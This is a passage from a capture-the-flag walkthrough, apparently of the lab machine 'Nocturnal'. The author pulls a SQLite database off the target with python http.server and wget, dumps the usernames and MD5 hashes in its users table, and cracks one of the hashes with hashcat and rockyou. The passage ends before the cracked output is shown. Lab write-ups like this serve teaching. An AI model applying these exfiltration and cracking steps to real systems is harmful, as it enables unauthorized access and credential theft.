 on the machines current directory:
```shell
python3 -m http.server 8000
```
on our machine
```shell
wget 10.10.11.64:8000/nocturnal_database.db
```
![Pasted image 20250527194533](MediaFiles/Pasted%20image%2020250527194533.png)
nice, we got the .db file locally, lets mess with it 

Found that the database has 2 tables
```
uploads
users
```

and by viewing the table users via sqlite, i found pairs of users and hashes.
`SELECT * FROM users;`
```shell
--------------------------------
admin
d725aeba143f575736b07e045d8ceebb
--------------------------------
amanda
df8b20aa0c935023f99ea58358fb63c4
--------------------------------
tobias
55c82b1ccd55ab219b3b109b07d5061d
--------------------------------
kavi
f38cde1654b39fea2bd4f72f1ae4cdda
--------------------------------
e0Al5
101ad4543a96a7fd84908fd0d802e7db
--------------------------------
```
By validating with hash identifier, it appears that these hashes are most possibly MD5.

Next, put the hashes each one separately on a txt, and then run hashcat for each one to crack them.

Tried all of them, and only tobias's hash returned a pass from hashcat
```shell
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```
output: